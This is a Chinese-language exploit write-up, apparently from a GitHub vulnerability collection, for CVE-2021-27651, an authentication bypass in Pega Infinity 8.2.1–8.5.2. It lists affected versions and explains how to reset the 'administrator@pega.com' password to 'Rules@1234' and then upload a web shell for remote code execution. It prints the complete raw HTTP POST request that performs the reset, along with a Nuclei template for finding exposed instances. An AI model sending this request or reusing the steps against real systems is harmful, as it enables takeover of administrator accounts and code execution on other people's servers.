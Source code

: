 # PEGA pega infinity 授权认证绕过RCE（CVE-2021-27651）

PEGA pega infinity是美国PEGA公司的一个应用软件。提供从数字混乱过渡到真正的数字转换。Pega Infinity 8.2.1版本至8.5.2版本存在授权问题漏洞，该漏洞源于本地帐户的密码重置功能可以用来绕过本地认证检查。

影响版本：

* Pega Infinity > = 8.2.1
* Pega Infinity <= 8.5.2

**复现：**

1.访问任何实例登录页面，使用"administrator@pega.com"进行重置密码进行登录,PoC如下，重置密码为：Rules@1234进行登录后上传shell进行rce。


```
POST /prweb/PRServlet/app/default/:PEGA_ID*/!STANDARD HTTP/1.1 (:PEGA_ID is a unique ID for each site, it is in this format: ZOgwf2Zk3OsEg_oG74MXXxG2bXKbv56W)
Host: redacted.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 112
Origin: https://redacted.com
DNT: 1
Connection: close
Referer: https://redacted.com/prweb/PRServlet/app/default/:PEGA_ID*/!STANDARD
Cookie: yourCookie
Upgrade-Insecure-Requests: 1

pzAuth=guest&NewPassword=Rules%401234&ConfPassword=Rules%401234&pyActivity%3DCode-Security.pzChangeUserPassword=
```

Nuclei Template：


```
id: pega

info:
  name: Pega Infinity Login
  author: sshell
  severity: low

requests:
  - method: GET
    path:
      - "{{BaseURL}}/prweb/PRRestService/unauthenticatedAPI/v1/docs"
    headers:
      User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55
    matchers:
      - type: word
        words:
          - "Pega API"

```

ref：

* https://github.com/samwcyo/CVE-2021-27651-PoC/blob/main/RCE.md
* https://nvd.nist.gov/vuln/detail/CVE-2021-27651
* http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202104-2150
